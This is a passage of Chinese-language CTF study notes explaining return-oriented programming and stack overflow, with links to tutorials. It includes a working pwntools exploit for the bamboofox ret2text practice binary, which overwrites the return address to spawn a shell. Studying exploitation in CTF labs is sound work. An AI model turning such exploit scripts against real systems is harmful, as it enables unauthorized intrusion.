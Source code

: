 



---

## ROP and Stack Overflow

> ROP(Return Oriented Programming)   面向返回编程    栈溢出问题
>
> 核心在于利用指令集中的 `ret` 指令，改变了指令流的执行顺序
>
> 参考链接：
>
> https://www.anquanke.com/post/id/85831   【技术分享】现代栈溢出利用技术基础：ROP   
>
> https://zhuanlan.zhihu.com/p/25816426
>
> https://zhuanlan.zhihu.com/p/25892385
>
> https://wooyun.js.org/drops/return2libc%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0.html
>
> https://xz.aliyun.com/t/3402

- 随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)
- 在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程**
- **gadgets**: 以 `ret` 结尾的指令序列，通过这些指令序列，可修改某些地址的内容，以控制程序的执行流程

所需条件：

1. 程序存在溢出，且可以控制返回地址
2. 可以找到满足条件的gadgets以及相应gadgets的地址(若 gadgets 地址不固定，就需要想办法动态获取对应的地址)



Important Cases:

- ROP_bamboofox_ret2syscall: 案例小巧简单，但是payload需要精心构造，多次rop，适合学习rop构造方法，rsp变化过程
- 



### ret2text

> return to .text of the executable program
>
> 栈溢出原理中所举例子属于该类别

- 控制程序执行程序本身的代码段(.text)
- 也可以控制程序执行好几段不相邻的已有代码(gadgets)
- 需要知道对应的返回的代码的位置

> 案例demo_ROP_bamboofox_ret2text见  https://github.com/hex-16/CTF-detailed-writeups/tree/main/pwn/demo_ROP_bamboofox_ret2text , 所使用的脚本：
>
> ```python
> # python3 pwntools # demo_ROP_ret2text
> from pwn import *
> sh = process('./ret2text')
> target = 0x804863a # 这个是 mov dword ptr [esp], offset command ; command: "/bin/sh" 的地址 后面一条指令是 call  _system
> payload = b'A' * (0x6c + 4) + p32(target) # 这里是前面分析的字符串 s 与 return address 之间的偏移量
> sh.sendline(payload)
> sh.interactive()
> ```
>
> 该案例总结：
>
> 1. IDA分析出危险函数(`gets`)